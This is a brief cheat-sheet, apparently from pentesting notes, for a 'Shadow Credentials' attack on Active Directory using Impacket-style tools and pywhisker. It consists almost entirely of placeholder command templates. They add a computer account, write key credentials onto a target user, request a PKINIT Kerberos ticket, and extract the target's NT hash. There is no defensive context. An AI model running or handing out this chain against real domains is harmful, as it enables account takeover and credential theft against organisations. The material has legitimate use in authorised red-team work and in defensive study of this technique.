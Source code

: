 # Shadow Credentials with Pywhisker

%adcs, ActiveDirectory, shadow, pkinit

## Adding Computer Account
```
addcomputer.py '<DOMAIN>/<USERNAME>':'<PASSWORD>' -method LDAPS -computer-name '<COMPUTER_NAME>' -computer-pass '<COMPUTER_PASSWORD>' -dc-ip <DC_IP>
```

## Using Pywhisker
```
python3 pywhisker.py -d <DOMAIN> -u <USERNAME> -p <PASSWORD> --target <TARGET_USER> --action add
```

## Generate PKINIT TGT
```
python3 gettgtpkinit.py -cert-pfx ../pywhisker/<PFX_VALUE>.pfx -pfx-pass <PFX_PASSWORD> <DOMAIN>/<USERNAME> <USER_CCACHE>.ccache
```

## Using Generated Ticket
```
KRB5CCNAME=<USER_CCACHE>.ccache python3 getnthash.py -key <KEY_VALUE> <DOMAIN>/<USERNAME>
``` 
